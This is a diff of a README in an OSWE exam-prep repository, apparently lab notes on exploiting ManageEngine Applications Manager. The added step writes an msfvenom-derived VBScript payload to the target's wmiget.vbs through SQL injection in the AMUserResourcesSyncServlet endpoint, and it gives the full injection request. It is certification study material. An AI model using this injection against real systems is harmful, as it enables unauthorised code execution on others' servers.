

Before and after one commit to solimanalmansor/OSWE-Prep, a Markdown page: OSWE-Labs/ManageEngine/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/OSWE-Labs/ManageEngine/README.md
+++ b/OSWE-Labs/ManageEngine/README.md
@@ -36,3 +36,11 @@ Match and replace roles in Notepad++ (to make the payload oneliner):
 - mach `::` replace with `:` **repeat this multiple times** (remove consecutive conlons and replace it by only one colon)
 3. **Final Payload**
   - We will paste out modified msfvenom payload just before `:WScript.Quit(0):`, as: `Echo serviceData:Next:<PAYLOAD_HERE>:WScript.Quit(0):`
+4. **Write the payload to the target file system using the SQLI**
+    - Encode the payload into Base64 then URL encode it
+    - write it to to `wmiget.vbs` using `copy (select convert_from(decode($$ENCODED_PAYLOAD_HERE$$,$$base64$$),$$utf-8$$)) to $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;`
+    - Final SQLI query looks like this:
+      ```
+      /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;copy (select convert_from(decode($$ENCODED_PAYLOAD_HERE$$,$$base64$$),$$utf-8$$)) to $$C:\\Program Files (x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
+      ```
+    -
````
